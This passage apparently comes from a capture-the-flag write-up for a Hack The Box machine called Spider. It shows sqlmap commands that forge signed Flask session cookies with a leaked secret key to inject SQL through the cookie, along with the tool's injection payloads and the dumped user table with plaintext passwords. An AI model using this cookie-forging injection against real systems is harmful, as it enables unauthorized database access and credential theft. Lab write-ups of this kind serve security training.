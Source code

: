 ```
sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump
```

Let's modify it

```
sqlmap http://spider.htb/ --eval "from flask_unsign import session as s; session = s.sign({'uuid': session}, secret='Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942')" --cookie="session=*" --dump
```

--> After running the sqlmap i got these results :

```bash
Parameter: Cookie #1* ((custom) HEADER)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: session=' AND (SELECT 5244 FROM (SELECT(SLEEP(5)))JJSC) AND 'oNCX'='oNCX

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: session=' UNION ALL SELECT CONCAT(0x716b766b71,0x67664d595359566c6672695942626f6852685967434b53624f6b46744d654868624357724f477069,0x7162706a71)-- -
---

Database: shop
Table: users
[5 entries]
+----+--------------------------------------+------------+-----------------+
| id | uuid                                 | name       | password        |
+----+--------------------------------------+------------+-----------------+
| 1  | 129f60ea-30cf-4065-afb9-6be45ad38b73 | chiv       | ch1VW4sHERE7331 |
| 2  | ce4d3bb9-b2e9-440f-bed4-da09bcb939f6 | {{config}} | hacker          |
| 3  | 0ef61829-d721-4fb7-b77d-1c822759b859 | hack       | hacker          |
| 4  | 8188a43e-e335-4904-b7e8-14adb9a746c7 | hecker     | hecker          |
| 5  | b5826318-5d52-48a8-981b-5d54baf52896 | {{config}} | {{config}}      |
+----+--------------------------------------+------------+-----------------+

Database: shop
Table: messages
[1 entry]
+---------+---------+-----------------------------------------------------------------------------------+---------------------+
| post_id | creator | message                                                                           | timestamp           |
+---------+---------+-----------------------------------------------------------------------------------+---------------------+
| 1       | 1       | Fix the <b>/a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal</b> portal! | 2020-04-24 15:02:41 |
+---------+---------+-----------------------------------------------------------------------------------+---------------------+
```
